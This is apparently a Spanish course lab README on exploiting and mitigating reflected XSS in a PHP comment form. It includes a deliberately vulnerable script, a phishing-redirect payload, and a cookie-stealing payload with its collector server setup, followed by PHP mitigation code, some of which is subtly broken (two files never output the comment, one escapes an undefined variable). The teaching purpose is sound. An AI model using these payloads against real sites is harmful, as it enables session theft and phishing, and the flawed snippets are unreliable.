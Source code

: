 # PPS-Unidad3Actividad5-Virgilio
Explotación y Mitigación de Cross-Site Scripting (XSS)
===
Tenemos como objetivo:

> - Recordar cómo se pueden hacer ataques de Cross-Site Scripting (XSS)
>
> - Conocer las diferentes formas de ataques XSS.
>
> - Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (XSS)
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es XSS?
---
Cross-Site Scripting (XSS) ocurre cuando una aplicación no valida ni sanitiza l>
scripts maliciosos se ejecuten en el navegador de otros usuarios.

Tipos de XSS:
- **Reflejado**: Se ejecuta inmediatamente al hacer la solicitud con un payload malicioso.
- **Almacenado**: El script se guarda en la base de datos y afecta a otros usuarios.
- **DOM-Based**: Se inyecta código en la estructura DOM sin que el servidor lo detecte

---
## ACTIVIDADES A REALIZAR
> Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
> También y como marco de referencia, tienes [la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos realizando operaciones:

## Código vulnerable
---
Crear el archivo vulnerable comment.php:

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

Este código muestra un formulario donde el usuario puede ingresar un comentario en un campo de texto. Cuando
el usuario envía el formulario, el comentario ingresado se muestra en la pantalla con el mensaje "Comentario publicado:
\[comentario\]". 

El Código no sanitiza la entrada del usuario, lo que permite inyectar scripts maliciosos.

![](images/imagen1.png)

### **Explotación de XSS**
---

Abrir el navegador y acceder a la aplicación: <http://localhost/comment.php>

** Explotación 1**
Ingresar el siguiente código en el formulario:

~~~
<script>alert('XSS ejecutado!')</script>
~~~

Si aparece un mensaje de alerta (alert()) en el navegador, significa que la aplicación es vulnerable.

![](images/imagen2.png)

**Explotación 2**

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](images/imagen3.png)


**Capturar cookies del usuario (en ataques reales):**
---
Con este ataque, un atacante podría robar sesiones de usuarios.

- Primero preparamos el **servidor atacante**:

En el caso de que estés utilizando la máquina docker de la pila LAMP, recuerda que tienes que conectarte al servicio docker  php83 primero:
~~~
docker exec -it lamp-php83 /bin/bash
~~~

Crea en tu servidor web una carpeta con nombre cookieStealer y carpetas asociadas:
~~~
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
~~~
 
> Si estamos con la Pila LAMP también lo podemos hacer directamente en la ruta _./www/cookieStealer_

Copia en el archivo coockieStealer/index.php [este archivo php](files/steal.php)
 - Ataque: Si insertamos en el comentario el siguiente script
~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~

![](images/imagen4.png)

En el archivo **cookie.txt** del servidor del atacante se habrán guardado los datos de nuestra cookie:

![](images/imagen8.png)

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>

## **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](files/xss5.png)

La función que hemos creado al principio del documento: filter_string_polyfill nos va a eliminar todos los caracteres peligrosos y nos cambia caracteres conflictivos.

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en sus equivalentes entidades HTML. Esto garantiza que incluso si el usuario ingresa una cadena que contiene etiquetas o código HTML, se mostrará como texto sin formato en lugar de que el navegador lo ejecute.
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido 

~~~
<?php
if (isset($_POST['comment'])) {
        // para manejar el caso de que no se haya enviado ningún comentario
    // htmlspecialchars convierte caracteres especiales en equivalentes html
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![](images/imagen5.png)

Aunque usar htmlspecialchars() es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:

**Validación de entrada**
---

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos
demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:
~~~
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
~~~

Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](files/xss6.png)

**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).

## Código Seguro


Crea el archivo comment4.php con todas las mitigaciones. La mitigaciones con mejoras para evitar CSRF las veremos en la siguiente actividad.

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~

Aquí está el código securizado:

🔒 Medidas de seguridad implementadas

1. Eliminación de etiquetas HTML y caracteres nulos:

La función filter_string_polyfill() usa preg_replace('/\x00|<[^>]*>?/', '', $string); para eliminar caracteres nulos (\x00) y cualquier etiqueta HTML (<[^>]*>?). Esto reduce la posibilidad de inyección de scripts.

2. Escapado de comillas:

En filter_string_polyfill(), las comillas simples (') y dobles (") se reemplazan por sus equivalentes en entidades HTML (&#39; y &#34;). Esto evita el cierre prematuro de atributos en HTML.

3. Uso de htmlspecialchars:

Después de aplicar filter_string_polyfill(), se vuelve a ejecutar htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');, lo que convierte caracteres especiales en entidades HTML.

	- ENT_QUOTES protege contra XSS al convertir tanto comillas simples como dobles en sus versiones seguras (&#39; y &#34;).

	- UTF-8 previene ataques basados en codificaciones incorrectas.  

4. Validación de longitud y contenido:

Se valida que el comentario no esté vacío y que no supere los 500 caracteres. Aunque esto no previene directamente XSS, ayuda a limitar intentos de ataques masivos.




🚀 Resultado

✔ Código seguro contra **Cross-Site Scripting (XSS)**

---
## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad5-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__
